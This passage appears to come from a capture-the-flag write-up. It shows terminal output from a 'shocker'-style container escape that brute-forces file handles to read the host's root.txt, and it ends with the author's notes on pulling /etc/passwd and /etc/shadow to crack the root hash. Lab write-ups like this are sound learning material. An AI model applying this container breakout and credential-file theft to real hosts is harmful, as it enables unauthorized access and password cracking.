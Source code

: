[*] Found cdrom
[*] Found root
[+] Match: root ino=18
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'root.txt'
[*] Found ..
[*] Found .backup
[*] Found .config
[*] Found .cache
[*] Found .local
[*] Found .ssh
[*] Found .
[*] Found .profile
[*] Found .bashrc
[*] Found root.txt
[+] Match: root.txt ino=110097
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root.txt) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
(remote) root@c150397ccd63:/tmp# 
(remote) root@c150397ccd63:/tmp# cat ro
cat: ro: No such file or directory
(remote) root@c150397ccd63:/tmp# ll
bash: ll: command not found
(remote) root@c150397ccd63:/tmp# ls
passwd  peas  rocketchat-importer  root  shocker  ufs
(remote) root@c150397ccd63:/tmp# cat root 
[REDACTED]
```

So since I only was able to extract the ```root.txt``` file from the host and did not get  user session, i was intrigued to investiagte further.

* I checked for ssh keys in the home directory of root - no luck
* extracted ```/etc/passwd``` and ```/etc/shadow``` and tried to crack the hash of root - no luck
* I decided to not bother anymore and stopped my investigation. Probably a different capabilty will provide a shell.